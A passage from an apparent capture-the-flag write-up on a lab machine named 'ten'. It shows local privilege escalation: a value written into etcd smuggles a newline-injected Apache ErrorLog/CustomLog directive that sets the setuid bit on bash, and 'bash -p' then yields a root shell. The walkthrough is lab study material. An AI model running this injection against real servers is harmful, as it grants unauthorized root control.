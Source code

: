 ```bash
# for example
tyrell@ten:/etc/apache2/sites-enabled$ ETCDCTL_API=3 /usr/bin/etcdctl put /customers/ten-29ee00eb/url toto
```
Now if we check our pspy : 

```bash
2024/10/14 18:16:01 CMD: UID=1000  PID=2594   | 
2024/10/14 18:16:07 CMD: UID=1000  PID=2605   | 
2024/10/14 18:16:12 CMD: UID=1000  PID=2606   | 
2024/10/14 18:16:12 CMD: UID=0     PID=2613   | systemctl restart apache2.service 
2024/10/14 18:16:12 CMD: UID=0     PID=2612   | /bin/sh -c systemctl restart apache2.service 
2024/10/14 18:16:12 CMD: UID=0     PID=2614   | 
2024/10/14 18:16:12 CMD: UID=0     PID=2615   | /bin/sh /usr/sbin/apachectl graceful-stop 
2024/10/14 18:16:12 CMD: UID=0     PID=2616   | /usr/sbin/apache2 -k graceful-stop 
2024/10/14 18:16:12 CMD: UID=0     PID=2619   | 
2024/10/14 18:16:12 CMD: UID=0     PID=2620   | /bin/sh /usr/sbin/apachectl start 
2024/10/14 18:16:12 CMD: UID=0     PID=2621   | rm -f /var/run/apache2/*ssl_scache* 
2024/10/14 18:16:12 CMD: UID=0     PID=2622   | /usr/sbin/apache2 -k start 
2024/10/14 18:16:12 CMD: UID=0     PID=2623   | /usr/sbin/apache2 -k start 
2024/10/14 18:16:12 CMD: UID=0     PID=2625   | /usr/sbin/apache2 -k start 
2024/10/14 18:16:12 CMD: UID=0     PID=2624   | /usr/sbin/apache2 -k start 
2024/10/14 18:16:12 CMD: UID=0     PID=2627   | /usr/sbin/apache2 -k start 
2024/10/14 18:16:12 CMD: UID=0     PID=2626   | /usr/sbin/apache2 -k start 
2024/10/14 18:16:12 CMD: UID=0     PID=2628   | /usr/sbin/apache2 -k start
```
And we can verify the ```010-customers.conf``` file :

```bash
tyrell@ten:/etc/apache2/sites-enabled$ cat 010-customers.conf | grep -I -C5 "toto"

<VirtualHost *:80>
	ServerName toto.ten.vl
	DocumentRoot /srv/ten-29ee00eb/
</VirtualHost>
```
So we be able to create a virtual host, now we need to find to use this to be root :

[Check this](https://httpd.apache.org/docs/2.4/logs.html#piped)

[And this](https://httpd.apache.org/docs/2.4/mod/core.html#errorlog)

So we need to add an actual servername then newline, add the log thing and comment everything else

Something like that :

```bash
ETCDCTL_API=3 /usr/bin/etcdctl put /customers/ten-b94344ef/url 'fake.ten.vl
  ErrorLog "|/usr/bin/chmod u+s /usr/bin/bash" 
#'
```
But we can also do this :

```bash
ETCDCTL_API=3 /usr/bin/etcdctl put /customers/ten-b94344ef/url 'fake.ten.vl
  CustomLog "|/usr/bin/chmod u+s /usr/bin/bash" common
#'
```
After that, just wait a little bit and execute ```/usr/bin/bash -p``` to be root
